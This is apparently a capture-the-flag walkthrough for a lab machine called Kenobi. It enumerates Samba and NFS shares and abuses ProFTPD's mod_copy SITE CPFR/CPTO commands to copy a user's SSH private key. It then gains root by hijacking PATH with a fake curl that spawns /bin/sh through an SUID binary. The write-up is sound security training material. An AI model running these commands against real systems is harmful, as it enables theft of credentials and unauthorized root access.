

kenobi
Kenobi
Enumeration
Nmap:

Enumerating Samba Shares using Nmap:
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.184.93
Enumerating Anonymous Share:
smbclient //10.10.184.93/anonymous
We get the location of id_rsa through the log file.
Enumerating NFS Share in Port 111 using Nmap:
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.184.93
Mounting the NFS share:
mount 10.10.184.93:/var /mnt/kenobiNFS

As we can see, after the mount the /var directory is accessible from our local machine.
Note: /var/tmp has all permissions. (We can write to it)
ProFTPD Vulnerability ( mod_copy module ):
This vulnerability in ProFTPD allows copying of files. Following is the process.
Connect to ProFTPD through Netcat
nc 10.10.184.93 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa

We can verify the copy by going into the mounted share.

Foothold
SSH to the Machine with the id_rsa file:
Copy the id_rsa from the NFS share to a local directory
change the permission on the file to 600
chmod 600 id_rsa
ssh using the id_rsa
ssh -i id_rsa kenobi@10.10.184.93
User flag is present on kenobi's home directory.
Privilege Escalation
Lets search for files with SUID bit set.
find / -type f -perm -04000 2>/dev/null

The executible /usr/bin/menu seems intresting. Lets run it.
The program has 3 options that runs 3 different programs in the background.
We can manipulate the path variable to create a malicious program that the menu program calls.
The 1st options seems to call the curl program
I will create a malicious curl program in the /tmp directory & add it to path.
cd /tmp
echo /bin/sh > curl
chmod a+x curl
export PATH=/tmp:$PATH
Next, run the program /usr/bin/menu & select option 1 to get root shell.
We find the root flag in the /root directory.
Thanks!!